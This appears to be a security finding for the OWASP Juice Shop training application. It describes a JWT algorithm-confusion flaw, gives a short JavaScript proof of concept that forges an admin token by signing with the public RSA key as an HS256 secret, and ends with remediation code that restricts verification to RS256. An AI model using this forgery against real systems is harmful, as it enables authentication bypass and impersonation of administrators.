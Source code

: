 ### Attack Vector
The application fails to validate the algorithm used for JWT signature verification. An attacker can obtain the public RSA key and use it as a symmetric secret to sign a forged JWT token with the HS256 algorithm, which will be accepted by the application's verification process.

### Technical Impact
- **Confidentiality**: Unauthorized access to protected resources and sensitive data
- **Integrity**: Impersonation of any user including administrators
- **Availability**: Complete bypass of authentication controls

### Proof of Concept
```javascript
// Using the public key from the application as the secret for HS256
const forgedToken = jwt.sign(
  {
    data: {
      id: 1,
      email: 'admin@juice-sh.op',
      role: 'admin'
    }
  },
  fs.readFileSync('encryptionkeys/jwt.pub', 'utf8'),
  { algorithm: 'HS256' }
);

// Then use in request
// Authorization: Bearer [forgedToken]
```

### Remediation
Explicitly restrict the allowed algorithms during JWT verification:

```typescript
// Replace in lib/insecurity.ts:
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false

// With:
export const verify = (token: string) => {
  if (!token) return false;
  try {
    return jwt.verify(token, publicKey, {
      algorithms: ['RS256'] // Only allow RS256 algorithm
    });
  } catch (err) {
    return false;
  }
}

// And replace in routes/verify.ts (lines 115-116):
jwt.verify(token, security.publicKey, {
  algorithms: ['RS256'] // Only accept RS256 algorithm for normal operation
}, (err: VerifyErrors | null, verified: JwtPayload) => {
  if (err === null) {
    challengeUtils.solveIf(challenge, () => { return hasAlgorithm(token, algorithm) && hasEmail(decoded, email) })
  }
})
```
